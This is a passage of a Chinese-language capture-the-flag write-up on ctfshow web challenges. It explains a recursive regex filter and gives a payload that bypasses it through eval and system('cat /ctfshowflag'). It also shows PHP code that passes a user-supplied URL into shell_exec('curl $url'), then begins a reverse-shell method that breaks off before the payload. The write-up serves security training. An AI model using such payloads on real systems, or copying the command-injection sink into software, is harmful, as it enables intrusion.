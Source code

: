 **`[^\W]+`**：

- `[^\W]` 是一个字符类，`^\W` 意味着“匹配不是非单词字符（`\W`）的字符”，因此它等同于 `[a-zA-Z0-9_]`，也就是字母、数字或下划线。
- `+` 表示“匹配一个或多个”这样的字符。

所以 `/[^\W]+/` 匹配一个或多个字母、数字或下划线，表示一个词或标识符。

**`\(` 和 `\)`**：

- 这两个是转义字符，用来匹配字面上的圆括号 `(` 和 `)`。`(` 和 `)` 在正则表达式中有特殊意义（分别表示捕获组和分组），所以在这里需要用 `\` 进行转义，表示它们是字面意义上的括号。

**`(?R)?`**：

- `(?R)` 是一个递归调用，在正则表达式中，`(?R)` 表示递归地匹配整个正则表达式（即自调用）。这意味着在括号内可以再次匹配相同的模式。
- `?` 表示这个递归是可选的，也就是说括号内的内容不一定要再次进行递归匹配。

payload

```
?code=eval(end(current(get_defined_vars())));&Z3r4y=system('cat /ctfshowflag');
```



## shell反弹

### web807

```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


error_reporting(0);
highlight_file(__FILE__);
$url = $_GET['url'];

$schema = substr($url,0,8);

if($schema==="https://"){
    shell_exec("curl $url");
}
```

**法1：反弹shell**

推荐一个网站：https://your-shell.com/

payload
